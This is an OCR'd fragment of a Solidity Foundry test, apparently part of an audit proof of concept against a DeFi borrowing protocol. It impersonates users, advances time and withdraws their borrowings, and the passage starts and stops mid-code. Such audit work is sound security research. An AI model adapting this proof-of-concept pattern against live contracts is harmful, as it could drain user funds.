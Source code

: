 ```solidity
                )
            );

            vm.stopPrank();
        }

        vm.warp(block.timestamp + 12960);
        vm.roll(block.number + 1080);

        address account1 = makeAddr("account1");
        address account2 = makeAddr("account2");
        address account3 = makeAddr("account3");

        {
            vm.startPrank(USER);

            uint64 index = 1;

            Treasury.GetBorrowingResult memory getBorrowingResult = contractsB.treasury.getBorrowing(USER, index);
            Treasury.DepositDetails memory depositDetail = getBorrowingResult.depositDetails;

            uint256 currentCumulativeRate = contractsB.borrow.calculateCumulativeRate();
            contractsB.usda.mint(USER, 1 ether); // @audit so there are enough funds (doesn't affect the PoC)
            uint256 tokenBalance = contractsB.usda.balanceOf(USER);

            if ((currentCumulativeRate * depositDetail.normalizedAmount) / 1e27 > tokenBalance) {
                return;
            }

            contractsB.usda.approve(address(contractsB.borrow), tokenBalance);
            vm.deal(USER, globalFee.nativeFee);
            contractsB.borrow.withDraw{value: globalFee.nativeFee}(
                USER, index, "0x", "0x", ethPrice, uint64(block.timestamp)
            );

            contractsB.abond.transfer(account2, contractsB.abond.balanceOf(USER));

            vm.stopPrank();
        }

        {
            vm.startPrank(USER_2);

            uint64 index = 1;

            Treasury.GetBorrowingResult memory getBorrowingResult = contractsB.treasury.getBorrowing(USER_2, index);
            Treasury.DepositDetails memory depositDetail = getBorrowingResult.depositDetails;

            uint256 currentCumulativeRate = contractsB.borrow.calculateCumulativeRate();
            contractsB.usda.mint(USER_2, 1 ether); // @audit so there are enough funds (doesn't affect the PoC)
            uint256 tokenBalance = contractsB.usda.balanceOf(USER_2);

            if ((currentCumulativeRate * depositDetail.normalizedAmount) / 1e27 > tokenBalance) {
                return;
            }

            contractsB.usda.approve(address(contractsB.borrow), tokenBalance);
            vm.deal(USER_2, globalFee.nativeFee);
            contractsB.borrow.withDraw{value: globalFee.nativeFee}(
```